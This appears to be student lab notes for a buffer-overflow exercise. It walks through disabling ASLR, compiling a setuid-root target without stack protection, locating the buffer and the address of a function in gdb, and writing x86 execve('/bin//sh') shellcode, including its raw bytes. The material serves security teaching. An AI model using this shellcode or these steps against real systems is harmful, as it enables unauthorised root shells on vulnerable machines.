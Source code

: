 # Buffer Overflow

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/287382801_1012708796106310_3393263325642954415_n.png?stp=dst-png_s480x480&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=OEfE7TGvRbcAX9Lwnqo&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVJaBQXkeTQc3PbfYqHvYtXJEhUZnHG_3LUF_EvomUPjPQ&oe=62D10C9F)


![](https://scontent.xx.fbcdn.net/v/t1.15752-9/284937695_8397444896947802_7098575315767581280_n.png?stp=dst-png_p206x206&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=h_6gXJaQYfsAX87Bvx-&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKzKVJLo4b6r2DPyj6_3K_JmVtxA9HT29wY-DC3cdIulw&oe=62D35345)

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/285364149_1209590779795497_2438689606973803339_n.png?stp=dst-png_p206x206&_nc_cat=105&ccb=1-7&_nc_sid=aee45a&_nc_ohc=FEFsuA50wucAX_aWkCe&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKyLOeKgkxINCyuvAc6lFEvPwXVLGFWX6CUa5Cp0N2uNA&oe=62D361AE)


# GDB: Important Points
- ```next``` move to the next instruction
- ```stepi``` move to the next assembly instruction
- ```disas [Function]``` disassebles a specific function
- ```break [Function] ``` or ```break *address``` set a breakpoint
- Regarding setting breakpoints and getting the correct value of ```ebp``` see lecture **buffer_overflow_demo.mp4** (from 11:50)
    - Set breakpoints appropriately for getting the correct value of stack pointer ```ebp```
    - After getting to that breakpoint, it is better to use a ```next``` command to make sure that the value of ```ebp``` is updated properly

# Assembly: Important Points
- The return value of a function is stored in ```eax```


# Task
Prepare a payload (e.g badfile) which will cause the program to call the the *secret* function and then open a shell with root's privilege when executed by other users



# Step by Step Procedure

## Step 1: Setting up the environment and compiling target C file  
- Set permissions
```bash
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
- Set user to root
```
sudo su
```
- Compiling the target file as root
```
gcc -m32 -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
```
- Set user back to seed
```
su seed
```
- Compiling the target file again as seed with "-g" for gdb
```
gcc -m32 -o stack_dbg -g -z execstack -fno-stack-protector stack.c
```

## Step 2: Getting the return address and buffer address using gdb

```bash
# run gdb
$ gdb stack_dbg
# set a breakpoint at foo
gdb-peda$ b foo
gdb-peda$ run
# set a breakpoint ar bof
gdb-peda$ b bof
gdb-peda$ continue
gdb-peda$ next
# print the value of ebp register (stack fram pointer)
# i.e. top of the current stack frame I guess
gdb-peda$ p $ebp
$1 = (void*) 0xffffb828

# print the address of buffer
gdb-peda$ p &buffer     
$2 = (char(*)[614])0xffffb592

# print in decimal (/d) the address difference
gdb-peda$ p /d 0xb828 - 0xb592
$3 = 662

# get the starting address of the function secret
gdb-peda$ disas secret
Dump of assembler code for function secret:
   0x565562e5 <+0>:     endbr32
   0x565562e9 <+4>:     push ebp
   ...
End of assembler dump.
```


## Step 1: Creating *payload*/*badfile*
- The payload or the badfile is usually written in assembly 
- The corresponding assembly code is translated to machine code
- The machine code is used to create a *badfile*
- Our intention is to **make a call to the function *secret*** and **open a shell with root privilege**


### Step 1.1: Make a call to the function *secret*
```x86asm
mov ebx, 0x565562e5
call ebx
```
- ```0x565562e5``` is the address of the function ```secret``` which we figured out using GDB


### Step 1.2: Open a shell with root privilege
```x86asm
xor  eax, eax 
push eax          ; Use 0 to terminate the string
push "//sh"
push "/bin"
mov  ebx, esp     ; Get the string address

; Construct the argument array argv[]
push eax          ; argv[1] = 0
push ebx          ; argv[0] points "/bin//sh"
mov  ecx, esp     ; Get the address of argv[]

; For environment variable 
xor  edx, edx     ; No env variables 

; Invoke execve()
xor  eax, eax     ; eax = 0x00000000
mov   al, 0x0b    ; eax = 0x0000000b
int 0x80
```

The final output should look something like this
```x86asm
section .text
  global _start
    _start:
      mov ebx, 0x565562e5
      call ebx

      ; code to open a shell
      xor  eax, eax 
      push eax          
      push "//sh"
      push "/bin"
      mov  ebx, esp     
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
      ; For environment variable 
      xor  edx, edx     ; No env variables 
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

## Step 2: Generating Machine Code for payload

### Method 1: 

- Use the following two commands to generate the machine code

```properties
nasm -f elf32 <asm_filename>.s -o <asm_filename>.o
xxd -p -c 20 <asm_filename>.o
```

- Copy the machine code and format it using **convert.py**. Paste the copied machine code into the variable ```ori_sh``` on line no 5

```python
ori_sh ="""
bbe5625556ffd331
c050682f2f7368682f62696e89e3505389e131d2
31c0b00bcd80
"""
```

- Run **convert.py** to get the formattd machine code


### Method 2: 
- Use [this link](https://defuse.ca/online-x86-assembler.htm) to directly generate formatted machine code. Only use ```mov```, ```push```, ```xor``` etc. commands


### Machine code for opening a shell:
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
```
